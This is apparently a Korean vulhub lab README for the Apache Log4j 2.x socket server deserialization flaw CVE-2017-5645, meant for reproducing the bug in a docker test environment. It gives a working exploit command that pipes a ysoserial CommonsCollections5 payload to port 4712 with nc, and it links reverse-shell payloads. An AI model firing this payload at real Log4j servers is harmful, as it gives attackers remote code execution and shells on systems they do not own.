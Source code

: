 # Apache Log4j 서버 역직렬화 명령 실행 취약점(CVE-2017-5645)
Apache Log4j는 원격 로그 서버 시작을 지원하는 Java용 로깅 라이브러리입니다. 2.8.2 이전의 Apache Log4j 2.x 버전에는 보안 취약점이 있습니다. 공격자는 이 취약점을 악용하여 임의 코드를 실행할 수 있습니다.

## 설명
log4j 소켓 서버에서 원격 로깅을 사용할 때 log4j 서버는 TCP 또는 UDP를 통해 수신된 모든 로그 이벤트를 역직렬화하는 것으로 나타났습니다. 공격자는 이 결함을 이용하여 역직렬화 중에 로거 응용 프로그램의 컨텍스트에서 임의 코드를 실행하는 특수하게 조작된 로그 이벤트를 보낼 수 있습니다.

## 상태
Log4j-1.x의 결함은 이제 CVE-2019-17571로 식별됩니다. CVE-2017-5645는 MITRE에 의해 Log4j-2.x에서 식별된 유사한 결함에 할당되었습니다.

## 취약점 환경

취약성 환경을 시작하려면 다음 명령을 실행하십시오.

```
docker compose up -d
```

환경이 시작되면 포트 4712에서 TCPServer가 열립니다.   

그런데 vulhub의 docker 이미지를 사용하여 환경을 구축하는 것 외에도 log4j jar 파일을 다운로드한 후 명령줄에서 직접 TCPServer를 시작할 수 있습니다: `java -cp "log4j-api-2.8.1.jar:log4j- core-2.8 .1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`

## 취약점 재발

ysoserial을 사용하여 페이로드를 생성한 다음 `your-ip:4712` 포트로 직접 보냅니다.   

```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

그런 다음 `docker compose exec log4j bash`를 실행하여 컨테이너에 들어가면 /tmp/success가 성공적으로 생성된 것을 볼 수 있습니다.   


[리바운드 셸 명령](http://www.jackson-t.ca/runtime-exec-payloads.html)을 실행하고 성공적으로 셸로 되돌아옵니다.
